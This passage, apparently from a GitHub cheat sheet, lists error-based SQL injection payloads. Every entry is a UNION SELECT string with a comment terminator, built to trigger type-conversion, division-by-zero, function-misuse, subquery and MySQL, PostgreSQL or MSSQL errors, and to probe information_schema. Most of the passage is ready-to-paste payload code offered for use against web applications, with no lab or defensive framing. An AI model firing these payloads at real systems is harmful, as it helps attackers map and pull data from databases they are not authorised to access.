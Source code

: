 ### 2. Type Conversion Errors

#### Invalid Type Casting
- Cast a string to an integer to cause a type conversion error.
  ```sql
  ' UNION SELECT CAST('abc' AS SIGNED) --
  ```

### 3. Function-Based Errors

#### Division by Zero
- Force a division by zero error.
  ```sql
  ' UNION SELECT 1/0 --
  ```

#### Invalid Function Usage
- Use a function incorrectly to trigger an error.
  ```sql
  ' UNION SELECT EXP('abc') --
  ```

### 4. Subquery Errors

#### Invalid Subquery
- Use a subquery in a way that causes an error.
  ```sql
  ' UNION SELECT (SELECT COUNT(*) FROM (SELECT 1 UNION SELECT 2) AS temp) --
  ```

### 5. Database-Specific Errors

#### MySQL Errors
- Use invalid queries to trigger MySQL-specific errors.
  ```sql
  ' UNION SELECT GTID_SUBSET('abc', 'def') --
  ```

#### PostgreSQL Errors
- Use invalid operations to cause PostgreSQL errors.
  ```sql
  ' UNION SELECT TO_NUMBER('abc', '999') --
  ```

#### MSSQL Errors
- Use MSSQL-specific functions incorrectly to trigger errors.
  ```sql
  ' UNION SELECT CONVERT(INT, 'abc') --
  ```

### 6. Information Schema Queries

#### Invalid Table Name
- Query the information schema with an invalid table name.
  ```sql
  ' UNION SELECT table_name FROM information_schema.tables WHERE table_name = 'non_existent_table' --
  ```
